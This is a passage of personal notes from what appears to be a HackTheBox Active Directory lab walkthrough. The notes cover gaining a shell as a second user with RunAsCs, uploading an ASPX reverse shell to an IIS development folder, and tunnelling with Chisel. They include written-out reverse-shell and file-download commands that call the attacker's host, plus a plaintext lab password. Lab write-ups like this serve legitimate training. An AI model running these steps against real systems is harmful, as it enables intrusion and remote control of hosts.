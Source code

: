 Try executing #RunAsCs 

`.\runascs.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.10:9001 `

We got a powershell window as c.bum!

Going back into `inetpub\development` directory and confirming we have write access. 

![[Pasted image 20250115205430.png]]

We can put an ASPX reverse shell in here on the IIS server.

aspx shells go with iis. 

googling aspx reverse shell.

https://github.com/borjmz/aspx-reverse-shell

paste this into `rev.aspx` file on local host.

Change IP and port # 

![[Pasted image 20250115205808.png]]

Run curl from inetpub directory 

`curl http://10.10.14.8:8000/rev.aspx`
![[Pasted image 20250115205853.png]]
Got hostname is invalid error. 

![[Pasted image 20250115210037.png]]
 --- pivoting to chisel ---
### Chisel

Download Chisel "server" executable for linux and "client" executable for Windows. 

https://github.com/jpillora/chisel/releases

Unzip the files 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609093920.png]]

Download the Windows client binary to remote shell 

```
curl http://10.10.14.8:8000/chiselw -o chisel.exe
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609094037.png]]

On Kali box, make Chisel binary executable

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609094153.png]]

Start Chisel server binary on kali 

```
./chisel.exe server -p 8001 --reverse
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609105852.png]]
